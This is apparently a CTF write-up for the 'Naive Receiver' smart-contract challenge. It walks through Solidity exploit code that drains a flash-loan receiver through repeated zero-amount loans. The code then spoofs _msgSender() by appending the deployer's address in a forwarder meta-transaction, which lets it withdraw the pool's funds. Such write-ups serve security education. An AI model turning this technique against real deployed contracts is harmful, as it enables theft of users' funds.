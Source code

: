 # Naive Receiver

There’s a pool with 1000 WETH in balance offering flash loans. It has a fixed fee of 1 WETH. The pool supports meta-transactions by integrating with a permissionless forwarder contract. 

A user deployed a sample contract with 10 WETH in balance. Looks like it can execute flash loans of WETH.

All funds are at risk! Rescue all WETH from the user and the pool, and deposit it into the designated recovery account.


# Overview of the solution
This function exploits a vulnerability in the FlashLoanReceiver contract by draining its funds through multiple flash loan calls, and then withdrawing all funds from the pool to a recovery address.

Step-by-Step Explanation

## Creating Multiple Flash Loan Calls:

```solidity
bytes[] memory callDatas = new bytes[](11);
for(uint i=0; i<10; i++){
    callDatas[i] = abi.encodeCall(NaiveReceiverPool.flashLoan, (receiver, address(weth), 0, "0x"));
}
```

This creates 10 flash loan calls with 0 amount. Even though the amount is 0, each call will still charge the fixed fee of 1 ETH to the receiver. This is the key vulnerability - the receiver doesn't validate the usefulness of the flash loan but pays the fee regardless.

## Adding Withdrawal Call:

```solidity
callDatas[10] = abi.encodePacked(
    abi.encodeCall(NaiveReceiverPool.withdraw, (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))),
    bytes32(uint256(uint160(deployer)))
);
```

The 11th call is a withdrawal operation that takes all funds (pool + receiver) and sends them to the recovery address. The appended bytes32 value is the address of the deployer, which is needed because the _msgSender() function in the pool contract checks for this value when called through the forwarder.

## Preparing the Forwarder Request:

```solidity
bytes memory callData = abi.encodeCall(pool.multicall, callDatas);
BasicForwarder.Request memory request = BasicForwarder.Request(
    player,
    address(pool),
    0,
    gasleft(),
    forwarder.nonces(player),
    callData,
    1 days
);
```

This prepares a request to the forwarder to execute a multicall on the pool contract, which will execute all the callDatas in sequence.

## Creating and Signing the Request Hash:

```solidity
bytes32 requestHash = keccak256(
    abi.encodePacked(
        "\x19\x01",
        forwarder.domainSeparator(),
        forwarder.getDataHash(request)
    )
);
(uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, requestHash);
bytes memory signature = abi.encodePacked(r, s, v);
```

This creates a hash of the request according to EIP-712 standards and signs it with the player's private key.

## Executing the Request:

```solidity
forwarder.execute(request, signature);
```

This sends the signed request to the forwarder, which will execute the multicall on the pool.

## The Vulnerability
The key vulnerability is that the FlashLoanReceiver contract doesn't validate whether the flash loan is necessary or beneficial. Each flash loan call charges a fixed fee of 1 ETH, regardless of the loan amount. By making 10 flash loan calls with 0 amount, the attacker drains the receiver's 10 ETH balance through fees.

Additionally, the exploit uses the multicall functionality of the pool to batch all these operations in a single transaction, and the BasicForwarder to execute it with proper authorization.

## Conclusion
This test demonstrates a sophisticated attack that:

Drains the receiver's funds through unnecessary flash loan fees
Withdraws all funds from the pool
Does this in a single transaction using a meta-transaction pattern through the forwarder
The vulnerability highlights the importance of validating the necessity and benefit of operations that incur fees, especially in financial contracts.